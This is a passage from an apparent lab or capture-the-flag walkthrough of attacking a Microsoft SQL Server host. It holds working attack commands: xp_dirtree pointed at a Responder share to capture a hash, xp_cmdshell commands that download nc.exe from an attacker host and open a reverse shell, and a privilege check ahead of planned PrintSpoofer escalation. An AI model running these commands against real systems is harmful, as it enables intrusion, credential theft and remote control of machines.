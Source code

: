 ```

Now let run `xp_dirtree "\\10.8.0.156\fakeshare"` on the target. Going back to `responder` .

![image](https://user-images.githubusercontent.com/69868171/126152700-4c9ed7c4-58a1-4b15-b357-db6c1b0a614f.png)

Now we have the same user hash not what am expecting damn let just try and get a shell from the `SQL` . So i locate an ncat binary on my machine if you are on kali it should be in `/usr/share/seclists/Web-Shells/FuzzDB/nc.exe` if you have `seclists` installed now back to the target let create a directory to transfer the ncat binary to.

![image](https://user-images.githubusercontent.com/69868171/126156592-b454d44a-d894-411e-a629-67eb9b6ead87.png)

```
EXEC xp_cmdshell 'mkdir C:\tmp'
```

We have our `SimpleHTTPServer` running already on port 80. Now back to the target again.

```
EXEC xp_cmdshell 'powershell -c curl http://10.8.0.156/nc.exe -o C:\tmp\nc.exe'
```
On our target let start a listener `nc -nvlp 4444` .

Back to the target.

```
EXEC xp_cmdshell 'C:\tmp\nc.exe -e cmd 10.8.0.156 4444'
```

![image](https://user-images.githubusercontent.com/69868171/126157319-d9310f03-7145-454b-9cd5-914d7c1c9aa1.png)

Now let check our listener.

![image](https://user-images.githubusercontent.com/69868171/126161198-943bcd4a-fb4e-43dd-9633-c4dda0f3fe4a.png)

We have shell time to get system.

### Administrator / System

```
C:\>whoami/priv
whoami/priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeMachineAccountPrivilege     Add workstations to domain                Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeManageVolumePrivilege       Perform volume maintenance tasks          Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

Seems `SeImpersonatePrivilege` is enabled cool now let find a way to abuse to get administrator access. And with the help of a tools called `PrintSpoofer` .

```